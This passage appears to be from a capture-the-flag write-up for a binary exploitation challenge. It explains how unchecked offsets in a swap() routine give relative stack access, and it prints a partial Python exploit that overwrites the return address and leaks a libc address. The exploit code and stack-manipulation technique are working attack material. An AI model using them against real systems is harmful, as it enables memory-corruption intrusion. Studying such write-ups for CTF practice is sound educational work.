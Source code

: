 ```c  
 fwrite(buffer,1,8,stdout);  
 fflush(stdout);  
 write(1,"\n",1);  
 return 0;  
}  
```

the basic execution flow seems rather simple, take two long offsets from `char
buffer[8]` from user using `readint()` and then `swap()` them (using xor). If
both provided offsets equal 0 the loop is exited, afterwards the byte order of
the buffer is reversed and printed. Normally because the GLIBC `FILE` struct
allows some shenanigans this  would be the obvious attack vector (and is used
in the official writeup), but this won't be needed for this exploit.

### Vulnerability

If we look at the code provided above there is an obvious vulnerability, the
offsets read from `readint()` and used for `swap()` are never validated
therefore giving  us unlimited relative stack access to stack, which we can
e.g. use to change the RET address and build a ROP chain:

```python  
...

BASE = 0 # default base  
# calculate values for woogie_boogie using BASE (of buffer) and target  
def base_diff(a, base=None):  
 if base is None:  
   base = BASE  
 diff = a - base  
 assert diff % 8 == 0, "unaligned diff"  
 return diff // 8

def woogie_boogie(a, b):  
 sla("woogie: ", a)  
 sla("boogie: ", b)

def leaker():  
 woogie_boogie(0, 0) # end main loop  
 return rl()[:-1] # get leak from buffer

# important offsets  
BASE = 0x7fffffffed10  
START_REF = base_diff(0x7fffffffede8) # 27  
ROP = base_diff(0x7fffffffed38) # 5

t = get_target()  
woogie_boogie(0, START_REF) # swap a stack reference to the _start function
with our buffer  
woogie_boogie(0, ROP) # swap the RET address of the main function with our
buffer (to loop back to main)  
leak = leaker() # leak the inital RET addrress (__libc_start_main+243)  
lhex(leak, '__libc_start_main+243: ')  
# new prompt for woogie:  
it() # t.interactive()  
```
